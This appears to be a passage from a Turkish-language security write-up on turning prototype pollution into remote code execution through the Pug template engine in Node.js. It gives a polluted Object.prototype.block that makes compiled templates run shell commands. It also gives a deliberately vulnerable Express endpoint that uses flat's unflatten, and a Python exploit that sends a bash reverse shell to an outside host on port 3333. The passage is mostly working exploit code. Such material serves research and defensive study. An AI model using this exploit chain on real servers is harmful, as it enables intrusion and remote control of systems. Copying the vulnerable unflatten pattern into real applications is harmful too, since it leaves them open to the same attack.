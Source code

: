 Oluşturulan bir fonksiyon örneği.  
Burada, **Object.prototype.line** değeri, **pug_debug_line** tanımının sağ tarafına eklenmiştir. 

```
const pug = require('pug');

Object.prototype.block = {"type": "Text", "line": "console.log(process.mainModule.require('child_process').execSync('id').toString())"};

const source = `h1= msg`;

var fn = pug.compile(source);
var html = fn({msg: 'It works'});

console.log(html); // "uid=0(root) gid=0(root) groups=0(root)\n\n<h1>It worksndefine</h1>"

```

Sonuç olarak, bir saldırı şu şekilde yapılandırılabilir.  
Parser tarafından her zaman sayı olarak tanımlanan `node.line` değerine bir string belirterek, fonksiyona herhangi bir komut eklenebilir.


### Example

```
const express = require('express');
const { unflatten } = require('flat');
const pug = require('pug');

const app = express();
app.use(require('body-parser').json())

app.get('/', function (req, res) {
    const template = pug.compile(`h1= msg`);
    res.end(template({msg: 'It works'}));
});

app.post('/vulnerable', function (req, res) {
    let object = unflatten(req.body);
    res.json(object);
});
 
app.listen(3000);


```

Handlebars örneğinde olduğu gibi, sunucu yapılandırmak için **flat** kullanılmıştır.  
Template engine **pug** olarak değiştirilmiştir.

```
import requests

TARGET_URL = 'http://p6.is:3000'

# make pollution
requests.post(TARGET_URL + '/vulnerable', json = {
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/p6.is/3333 0>&1'`)"
    }
})

# execute
requests.get(TARGET_URL)
```